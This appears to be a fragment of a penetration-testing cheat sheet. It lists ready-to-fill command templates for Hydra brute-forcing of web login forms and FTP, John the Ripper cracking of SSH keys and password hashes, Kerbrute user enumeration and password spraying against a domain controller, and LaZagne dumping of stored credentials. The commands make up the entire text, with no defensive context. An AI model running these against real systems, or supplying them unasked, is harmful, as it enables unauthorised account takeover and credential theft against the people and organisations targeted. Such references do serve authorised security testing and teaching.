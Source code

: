 #### Hydra

```c
hydra <RHOST> -l <USERNAME> -p <PASSWORD> <PROTOCOL>
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> <PROTOCOL>
hydra -C /PATH/TO/WORDLIST/<FILE> <RHOST> ftp
```

```c
export HYDRA_PROXY=connect://127.0.0.1:8080
unset HYDRA_PROXY
```

```c
hydra -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
```

```c
hydra <RHOST> http-post-form -L /PATH/TO/WORDLIST/<FILE> "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT> -P /PATH/TO/WORDLIST/<FILE>

hydra <RHOST> http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -l root@localhost -P otrs-cewl.txt -vV -f

hydra -l admin -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"
```

#### John

```c
/usr/share/john/ssh2john.py id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt <FILE>
john --rules --wordlist=/usr/share/wordlists/rockyou.txt <FILE>
john --show <FILE>
```

#### Kerbrute

##### User Enumeration

```c
./kerbrute userenum -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES>
```

##### Password Spray

```c
./kerbrute passwordspray -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES> <PASSWORD>
```

#### LaZagne

```c
laZagne.exe all
```

